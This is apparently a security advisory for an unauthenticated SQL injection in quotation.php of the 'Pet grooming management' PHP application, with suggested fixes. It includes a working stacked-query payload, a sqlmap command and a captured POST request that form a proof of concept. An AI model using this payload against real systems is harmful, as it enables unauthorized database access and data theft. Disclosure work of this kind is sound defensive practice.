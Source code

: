 # Pet grooming management quotation.php  v.1.0  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'quotation.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter 'sql' and 'sql2' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve authorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "quotation.php" file. This vulnerability stems from insufficient user input validation of the 'sql' and 'sql2' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No Login or authorization is required to exploit this vulnerability
# Vulnerability details and POC

## Vulnerability type:

- stacked queries
## Vulnerability location:

- "sql" and "sql2" parameter
![image-20250922173958.png](./assets/image-20250922173958.png)

![image-20250922174156.png](./assets/image-20250922174156.png)
## Payload:

```
Parameter: #1* ((custom) POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#
```

![image-20250922174748.png](./assets/image-20250922174748.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /admin/quotation.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

id=-1*

```
# Attack results

![image-20250922175122.png](./assets/image-20250922175122.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.